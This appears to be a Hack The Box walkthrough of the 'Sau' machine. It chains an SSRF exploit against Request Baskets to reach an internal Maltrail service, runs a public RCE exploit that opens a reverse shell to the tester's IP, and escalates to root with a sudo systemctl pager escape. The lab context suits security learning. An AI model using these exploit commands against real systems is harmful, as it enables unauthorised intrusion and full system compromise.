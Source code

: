 # HTB - Sau

#### Ip: 10.10.10.248
#### Name: Sau
#### Rating: Easy

----------------------------------------------------------------------

Sau.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.224
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-14 10:30 CST
Nmap scan report for 10.10.11.224
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 14 Feb 2024 16:31:12 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 14 Feb 2024 16:30:44 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 14 Feb 2024 16:30:45 GMT
|_    Content-Length: 0
```

Interesting how port 80 and 8338 are returning on the Nmap scan, but are filtered.

Looking at port 55555 we see it is a web page running Request Baskets:

sau_site.png

At the bottom of the page we also get the version number running:

```
Powered by request-baskets | Version: 1.2.1 
```

Searching for exploits against this version, we find it is vulnerable to SSRF, and and find a public exploit for the vulnerability: https://github.com/entr0pie/CVE-2023-27163

I don't have much experience with SSRF, so reading up on the vulnerability anymore I find a helpful refresher at: https://portswigger.net/web-security/ssrf

Per the site:

```
 Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials. 
```

Ok cool, so thinking back to ports 80 and 8338 being filtered on the target, I wonder if they are open internally only and we can access them using this exploit.

Lets try it.

### Exploitation

Downloading the exploit using wget, I can then run it, with the first argument being the vulnerable service on port 55555, and the second argument being port 80 running on localhost:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ bash CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "dbvzpu" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/dbvzpu now makes the server request to http://127.0.0.1:80/.
> Authorization: 7u30CF26LRwaGj0ZCeEYdMwcqCu5Hh2e7_Lhrvhln91D
```

This creates a basket for us, and gives us the authorization key to access it.


Now if we navigate to the created basket we can see port 80 is running maltrail V0.53

sau_internal.png

Looking for maltrail exploits I find an unauthenticated RCE: https://github.com/spookier/Maltrail-v0.53-Exploit

This exploit targets the username parameter and injects a reverse shell into it.

Running the exploit against the basket targeting maltrail:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ python maltrail_rce.py 10.10.14.60 8338 http://10.10.11.224:55555/dbvzpu
Running exploit on http://10.10.11.224:55555/dbvzpu/login
```

Gets me a shell us user puma:

sau_shell.png

I can now access the user.txt flag in puma's home directory:

sau_user.png

### Privilege Escalation

Running `sudo -l` to see what I can run with elevated permissions:

```
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Cool, this should be straightforward. Checking out https://gtfobins.github.io/gtfobins/systemctl/

I find:

sau_gtfo.png

I can then run:

```
puma@sau:/usr/bin$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
<SNIP>
!sh
```

To drop into a root shell, permitting me to read the final flag:

sau_root.png

Thanks for following along!

-Ryan

